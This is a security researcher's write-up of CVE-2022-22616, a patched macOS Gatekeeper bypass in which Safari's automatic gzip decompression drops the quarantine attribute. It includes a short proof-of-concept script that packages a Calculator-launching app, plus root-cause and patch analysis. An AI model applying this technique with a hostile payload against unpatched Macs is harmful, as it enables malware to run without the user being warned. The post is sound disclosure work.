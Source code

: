 ```yaml
---
layout: post
title: CVE-2022-22616&#58; Simple way to bypass GateKeeper, hidden for years


---
```


In this writeup, I will introduce a very simple method to bypass [__GateKeeper__](https://support.apple.com/en-us/HT202491) , and uncover the root cause through reversing and debugging. Apple had already addressed it as [CVE-2022-22616](https://support.apple.com/en-us/HT213183) in macOS Monterey 12.3, and credited the bug to two Jamf researchers (@malwarezoo, @jbradley89) and me. So, make sure you have updated your Mac devices to the latest version.

# POC

```shell
#!/bin/bash
mkdir -p poc.app/Contents/MacOS
echo "#!/bin/bash" > poc.app/Contents/MacOS/poc
echo "open -a Calculator" >> poc.app/Contents/MacOS/poc
chmod +x poc.app/Contents/MacOS/poc
zip -r poc.app.zip poc.app
gzip -c poc.app.zip > poc.app.zip.gz
```

After the file __poc.app.zip.gz__ is downloaded by using `Safari.app`, macOS will decompress it automatically.

**However, it will lose the `com.apple.quarantine`  extended attribute when decompressing the gzip file.**

Then open the `poc.app`, it will pop a Calculator directly without any prompt.

[___Click to watch the demo video___](https://youtu.be/S5moPnXnvaE)

# Root Cause

I found the bug by accident when I downloaded something normally by using Safari. I was surprised by the loss of the extended attribute. Then I wondered who is responsible for the automatic decompression, and why it loses the extended attribute.

Through file monitoring, I found the process `/Applications/Safari.app/Contents/XPCServices/com.apple.Safari.SandboxBroker.xpc/Contents/MacOS/com.apple.Safari.SandboxBroker` is actually the one I was looking for. Here is the call stack for the extraction:

![MicrosoftTeams-image](../res/2022-3-15-CVE-2022-22616-Gatekeeper-Bypass/callstack.png)

Then I found the vulnerable function `__42__WBSDownloadFileGZipUnarchiver_unarchive__block_invoke` from the private framework `SafariShared` :

![image-20220315165425532](../res/2022-3-15-CVE-2022-22616-Gatekeeper-Bypass/image-20220315165425532.png)

At line `66`, it writes the decompressed data to `dstPath` directly, and forgets to set the extended attribute `com.apple.quarantine`.

# Patch

Apple addressed the issue in macOS 12.3, Let’s check the patch:

![image-20220315170431039](../res/2022-3-15-CVE-2022-22616-Gatekeeper-Bypass/image-20220315170431039.png)

As expected, now it copies the quarantine properties too at line `89`.

# Another Vulnerable Function ?

There are two kinds of archive file will be automatically decompressed by the process __SandboxBroker__: 

<img src="../res/2022-3-15-CVE-2022-22616-Gatekeeper-Bypass/image-20211223174210946.png" alt="image-20211223174210946" style="zoom:50%;" />

The class `WBSDownloadFileUnarchiver` is the base class of  `WBSDownloadFileGZipUnarchiver` and `WBSDownloadFileBOMUnarchiver`, it extracts the target file by the __virtual method__ `unarchive`.

__WBSDownloadFileGZipUnarchiver__ is responsible for __gzip__ file and __WBSDownloadFileBOMUnarchiver__ is responsible for __BOM__ file. So does __WBSDownloadFileBOMUnarchiver__ have the same issue ? 

Apple assigned the same CVE ID for the two functions:

![image-20220315171726923](../res/2022-3-15-CVE-2022-22616-Gatekeeper-Bypass/image-20220315171726923.png)

![image-20220315171751208](../res/2022-3-15-CVE-2022-22616-Gatekeeper-Bypass/image-20220315171751208.png)

So it seems that it was vulnerable too. 

But I also debugged the function on the old __macOS 12.1__:

![image-20220315172203177](../res/2022-3-15-CVE-2022-22616-Gatekeeper-Bypass/image-20220315172203177.png)

We can see the parameter  `options` for API __BOMCopierCopyWithOptions__, the attribute __copyQuarantine__ is set to true. It means it will set the quarantine properties if the original __zip__ file has the quarantine properties.

Apple did make a patch for `WBSDownloadFileBOMUnarchiver`, then I made a diff, and found nothing new:

![image-20220315174805111](../res/2022-3-15-CVE-2022-22616-Gatekeeper-Bypass/image-20220315174805111.png)

It just replaced the `BOM*` API call with the function pointer call, which is resolved by `dlsym` dynamically. I couldn’t make sense the purpose now. Maybe Jamf researchers will share a different POC later.

# Summary

The way to bypass __GateKeeper__ is simple enough, and the issue has existed for a long time, I think. I am not sure whether it was actively exploited. If you find the real attacking sample in the wild, please let me know. (You can contact me via Twitter Message [@patch1t](https://www.twitter.com/patch1t))

